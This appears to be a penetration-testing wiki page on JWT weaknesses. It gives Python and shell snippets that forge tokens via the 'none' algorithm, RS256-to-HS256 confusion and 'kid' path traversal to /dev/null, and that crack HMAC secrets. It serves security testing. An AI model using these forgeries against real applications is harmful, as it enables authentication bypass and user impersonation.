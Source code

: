 # Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens (JWTs) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts (header, payload, signature) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` (or `none`, `NONE`, `nOnE`) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Signature attack - KID header path traversal

The [kid](https://www.rfc-editor.org/rfc/rfc7515#section-4.1.4) (Key ID) is an optional parameter specified in the JWT header part to indicate the key used for signature validation in case there are multiple ones.

The structure of this ID is not specified and it can be any string value (case-sensitive).&#x20;

The last part is interesting because, if the parameter is vulnerable to [directory traversal](../inputs/directory-traversal.md), this would allow to perform path traversal and point to a file `path/file` with content we can guess or known somehow, and use its content as the value of the signing key.

{% hint style="info" %}
> There are a bunch of files in /sys that are basically flags. Like the flag that says if ftrace is enabled is either 0 or 1. So the attacker just creates 2 tokens with that as the key and one of them will work!
>
> _(By_ [_Intigriti_](https://twitter.com/intigriti) _on_ [_Twitter_](https://twitter.com/intigriti/status/1618653959752925184)_)_

The example mentioned above is located at `/proc/sys/kernel/ftrace_enabled`
{% endhint %}

This can be done in Python.

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='file-content', algorithm='HS256', headers={"kid": "../../../path/to/file"})
print(token)
```
{% endcode %}

#### Special case: `file=/dev/null`

The signature validation can be bypassed by pointing to `/dev/null` which will return an empty string, meaning that an empty key could be used for signature.

{% hint style="info" %}
"[JWT authentication bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)" PortSwigger lab provides more insight on this technique.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```python
import jwt
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm='HS256', headers={"kid": "../../../dev/null"})
print(token)
```
{% endcode %}

{% hint style="info" %}
If Burp is used to craft the JWT token, a symmetric key with value of the `k` property in the JWT equal to `AA==` (base64 value of null byte) must be created.&#x20;

The same secret value is to be used on [jwt.io](https://jwt.io/).&#x20;
{% endhint %}

### Cracking the secret

When JWT uses `HMAC-SHA256`/`384`/`512` algorithms to sign the payload, testers can try to find the secret if weak enough.

[JWT tool](https://github.com/ticarpi/jwt\_tool) (Python3) can be used for this purpose.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># crack the secret using dictionnary attack
<strong>jwt_tool.py -v -C -d $wordlist_file "$JWT_value"
</strong><strong>
</strong># use the secret to tapmer (-T option) the token
# running this command will show up a menu to choose the value to tamper
# the result token will be signed with the submited secret using the specified singing algorithm "alg" (hs256/hs384/hs512 = HMAC-SHA signing).
<strong>jwt_tool.py -v -S $alg -p "$secret" -T "$JWT_value"
</strong></code></pre>

JWT secrets can also be cracked using hashcat (see the [AD credential cracking](../../active-directory/movement/credentials/cracking.md) page for more detailed info on how to use it).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

### Recovering the public key

In certain scenarios, public keys can be recovered when knowing one (for algos `ES256`, `ES384`, `ES512`) or two (for algos `RS256`, `RS384`, `RS512`) tokens.

This can be achieved with the following Python script : [JWT-Key-Recover](https://github.com/FlorianPicca/JWT-Key-Recovery)

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" %}

{% embed url="https://jwt.io/" %}

{% embed url="https://portswigger.net/web-security/jwt" %}

{% embed url="https://systemweakness.com/deep-dive-into-jwt-attacks-efc607858af6" %}
